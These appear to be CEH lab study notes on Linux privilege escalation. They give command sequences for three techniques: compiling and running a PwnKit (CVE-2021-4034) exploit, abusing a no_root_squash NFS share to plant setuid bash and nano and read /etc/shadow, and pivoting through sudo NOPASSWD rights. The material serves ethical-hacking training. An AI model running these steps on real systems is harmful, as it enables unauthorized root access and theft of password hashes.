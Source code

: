 # Escalate Privileges by Exploiting Vulnerability in pkexec (CEH Lab)

We will be exploiting the pkexec CVE-2021-4034 vulnerability
LinPeas (github) to check for privilege escalation
From linpeas out put pick pwnkit and search google for pwnkit on github (also available in iLabs)
```
>cd /tmp
>git clone {github url}
>cd into folder
>make
>./{file}
>whoami
```

# Escalate Privileges in Linux Machine by Exploiting Misconfigured NFS (CEH Lab)
On target machine
```
>sudo apt-get update
>sudo apt install nfs-kernel-server
>nano /etc/exports
Edit the export file to make home directory as share
/home *(rw,no_root_squash)
>sudo /etc/init.d/nfs-kernel-server restart
On Attacker 
>sudo nmap -sV --script=nfs-showmount {targetIP} (should see port 2049 open)
>sudo apt-get install nfs-common
>showmount -e {target IP}
>mkdir /tmp/nfs
>mount -t nfs 192.168.1.102:/home /tmp/nfs
>cp /bin/bash .
>chmod +s bash
>ls -la bash
>sudo df -h
>ssh -l ubuntu {target IP}
>cd /home 
>ls 
>./bash -p 
>id 
>whoami
>cp /bin/nano . 
>chmod 4777 nano 
>ls -la nano
>./nano -p /etc/shadow
```

# Escalate Privileges via SSH
```
>ssh {user}@{targetIP}
Password from shoulder surfing, previous challenege, or hydra
>whoami
>sudo -l (look for NOPASSWD)
>sudo -u {user2} {command} (e.g. >sudo -u user2 /bin/bash)
>whoami
>cat flag file

Vertical (maybe after horizontal):
>cd /root
>ls -la
>cd .ssh
```